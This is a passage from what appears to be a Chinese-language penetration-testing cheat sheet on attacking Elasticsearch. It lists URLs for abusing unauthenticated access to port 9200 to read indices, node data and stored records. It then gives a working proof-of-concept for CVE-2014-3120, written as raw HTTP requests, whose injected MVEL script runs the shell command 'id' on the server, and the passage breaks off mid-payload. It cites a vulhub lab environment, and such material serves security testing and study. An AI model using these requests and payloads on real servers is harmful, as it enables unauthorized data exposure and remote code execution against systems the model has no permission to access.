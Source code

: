 **未授权访问漏洞**

- `http://[ip]:9200`
- `http://[ip]:9200/_plugin/head/` web 管理界面
- `http://[ip]:9200/hello/_search?pretty&size=50&from=50`
- `http://[ip]:9200/_cat/indices`
- `http://[ip]:9200/_river/_search` 查看数据库敏感信息
- `http://[ip]:9200/_nodes` 查看节点数据
- `http://[ip]:9200/_cat/indices?v` 查看当前节点的所有 Index
- `http://[ip]:9200/_search?pretty=true` 查询所有的 index, type
- [Elasticvue](https://chrome.google.com/webstore/detail/elasticvue/hkedbapjpblbodpgbajblpnlpenaebaa?hl=en-US) - 进行未授权访问漏洞利用的插件

**CVE-2014-3120 ElasticSearch 命令执行漏洞**
- 简介

    老版本 ElasticSearch 支持传入动态脚本 (MVEL) 来执行一些复杂的操作,而 MVEL 可执行 Java 代码,而且没有沙盒,所以我们可以直接执行任意代码.

- 影响版本
    - ElasticSearch 1.1.1

- POC | Payload | exp

    来源: [ElasticSearch 命令执行漏洞 (CVE-2014-3120) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/)

    首先,该漏洞需要 es 中至少存在一条数据,所以我们需要先创建一条数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后,执行任意代码:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
        "filtered": {
            "query": {
            "match_all": {
            }
            }
        }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }